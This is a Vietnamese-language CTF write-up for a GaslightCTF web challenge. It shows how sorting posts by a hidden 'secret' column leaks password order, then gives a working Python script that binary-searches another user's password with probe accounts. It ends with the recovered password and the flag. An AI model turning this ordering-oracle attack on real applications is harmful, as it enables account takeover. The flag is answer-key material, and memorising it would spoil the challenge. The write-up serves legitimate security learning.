







# Write-up CTFtime 2026: GaslightCTF - Web Challenge

Vì challenge này khá tốn công để tôi đọc source, phân tích luồng, loại bỏ trường hợp không thể khai thác nên tôi sẽ nói hướng khai thác chính luôn.

## 1. Hướng khai thác



1. **Flag nằm trong bài viết private của admin**
2. Chỉ có những ai là **bạn thân của admin** mới có thể xem private (gồm `alice`, `carol`, `dave`)
3. Ta không thể tự thêm vào list bạn thân của admin được, vậy nên để lấy được flag:
   - **1 là hack tài khoản admin**
   - **2 là hack tài khoản nằm trong list bạn thân của admin**

Password các user trong seed (có sẵn) được lưu với **16 ký tự ngẫu nhiên được tạo bởi mã hex**:

```js
const secret = () => crypto.getRandomValues(new Uint8Array(8)).toHex();
```



- Ta có thể thấy lab đã cho thông tin của `bob`, người nằm trong danh sách bạn thân của `carol` (bạn thân của admin) mới nhìn tôi nghĩ đây có thể là entry point để khai thác nhưng sau khi ra được flag thì nó k thực sự quan trọng.



- Hàm `filter()` luôn được áp dụng tại mọi truy vấn SQL tức ta kh thể inject bất kì kí tự nào ngoài `[a-z,A-Z,0-9]`.


- Tôi tr đó đã tạo `user1`: `7ffff`
- Chú ý ở đây với:

```text
/api/stories?column=name&order=ASC
```


tức đang sắp xếp theo giá trị cột `name` và loại sort là `ASC`.

- SQL sẽ so sánh toàn bộ kí tự theo từng kí tự từ trái qua phải, với `carol` và `user1` thì:

```text
name(carol) < name(user1)
```

nên bài viết của tôi (`user1`) nằm sau `carol`.

### Nếu ta đổi `column=name` thành `column=secret` thì sao?

```text
/api/stories?column=secret&order=ASC
```



- Lúc này bài viết của `user1` đã nằm **trước `carol`** tức:

```text
secret(user1) < secret(carol)
```

- Nghĩa là:

```text
7ffff... < secret(carol)
```

- Secret của `carol` > `7ffff...`, nghĩa là kí tự đầu của `carol` nằm trong khoảng:

```text
[8-f]
```

- Đến đây đã khá thấy quen với thuật toán chia khoảng rồi đúng không.

---

## 2. Thuật toán nhị phân

- Cụ thể ta sẽ dùng **thuật toán nhị phân** để tìm ra secret.

Secret chỉ gồm 16 kí tự hex:

```text
0123456789abcdef
```

Ta sẽ tìm từng kí tự từ trái sang phải.

**Quan trọng:** password/probe mà ta tạo ra phải luôn có đủ **16 kí tự hex**, giống format secret thật. Ví dụ nếu muốn kiểm tra `7` thì không tạo `7` đơn lẻ mà phải tạo:

```text
7fffffffffffffff
```

Việc thêm `f` vào phần còn lại giúp probe có giá trị lớn nhất trong khoảng prefix đang xét.

Ví dụ secret thật của Carol là:

```text
2af32...
```

và ta đang kiểm tra prefix `2a`, thì probe sẽ là:

```text
2affffffffffffff
```

Ở đây:

```text
2a == 2a
```

nên SQL tiếp tục so sánh các kí tự phía sau. Khi đó:

```text
2affffffffffffff > 2af32...
```

vì sau prefix `2a`, probe dùng `f` cho phần còn lại. Nhờ vậy ta biết secret thật của Carol nằm **trước probe**.

Ví dụ với kí tự đầu tiên, ban đầu ta có khoảng:

```text
[0 1 2 3 4 5 6 7 8 9 a b c d e f]
```

Ta thử giá trị ở giữa, ví dụ `7`, bằng probe:

```text
7fffffffffffffff
```

Nếu:

```text
7fffffffffffffff < secret(carol)
```

thì kí tự cần tìm lớn hơn `7`, vậy bỏ nửa đầu:

```text
[8 9 a b c d e f]
```

Tiếp tục lấy giá trị ở giữa của khoảng mới để so sánh.

Ví dụ thử `a`, ta tạo probe:

```text
afffffffffffffff
```

Nếu:

```text
afffffffffffffff > secret(carol)
```

thì kí tự cần tìm nhỏ hơn `a`, vậy khoảng còn:

```text
[8 9]
```

Đến lúc này chia đôi sẽ luôn cho ra kí tự bé hơn và xảy ra 2 TH nếu 8 > carol'secret thì tức là `8ffff..` > `8a2cb...` vậy là ta đã tìm được kí tự đầu , trường hợp còn lại 8 < carol'secret thì chỉ còn kí tự cuối là `9`

Sau khi tìm được kí tự đầu tiên, ta giữ nó lại và tiếp tục tìm kí tự thứ hai.

Ví dụ đã tìm được:

```text
49
```

thì khi tìm kí tự tiếp theo, ta sẽ tạo probe có dạng:

```text
49affffffffffffff
```

Ta cứ làm như vậy cho đến khi tìm đủ **16 kí tự** của secret.

Vì có 16 kí tự hex nên mỗi kí tự cần khoảng:

```text
log2(16) = 4
```

lần chia khoảng.

<details>
<summary><strong>▶ Click để xem script khai thác</strong></summary>
  
```python
  
import requests
import random
import string
import time

BASE = "https://825cb67e-58fc-4ad5-ade0-bea15d37be79.play.gaslightctf.cooking:1337"
HEX = "0123456789abcdef"
TARGET = "carol"


def create_probe(secret):
    name = "p" + "".join(random.choices(string.ascii_lowercase + string.digits, k=8))

    r = requests.post(
        f"{BASE}/api/signup",
        json={"name": name, "password": secret}
    )

    cookies = r.cookies

    requests.post(
        f"{BASE}/api/stories",
        json={"story": "x", "visibility": "public", "minutes": 1440},
        cookies=cookies
    )

    return name


def compare(cookies, probe_secret):
    probe = create_probe(probe_secret)

    data = requests.get(
        f"{BASE}/api/stories",
        params={"column": "secret", "order": "asc"},
        cookies=cookies
    ).json()

    users = [
        x["author"] for x in data
        if x["visibility"] == "public"
        and x["author"] in (TARGET, probe)
    ]

    return users.index(TARGET) < users.index(probe)


def bisect(cookies, prefix, pos):
    lo, hi = 0, 15

    while lo < hi:
        mid = (lo + hi) // 2
        probe = prefix + HEX[mid] + "f" * (15 - pos)

        if compare(cookies, probe):
            hi = mid
        else:
            lo = mid + 1

    return HEX[lo]


def crack(cookies):
    secret = ""

    for pos in range(15):
        secret += bisect(cookies, secret, pos)
        print(f"[{pos}] {secret}")

    for c in HEX:
        candidate = secret + c

        r = requests.post(
            f"{BASE}/api/login",
            json={"name": TARGET, "password": candidate}
        )

        if r.ok:
            return candidate


def main():
    r = requests.post(
        f"{BASE}/api/signup",
        json={
            "name": "runner" + str(int(time.time())),
            "password": "123456"
        }
    )

    cookies = r.cookies
    secret = crack(cookies)

    print(f"\ncarol.secret = {secret}")


main()
```

</details>



## 3. Kết quả

Password carol:

```text
49ba34b8b6dd94e8
```



→ **flag:**

```text
gaslightCTF{ar3_y0u_my_cl0s3_fr13nd_n0w?_5f083263d323}
```
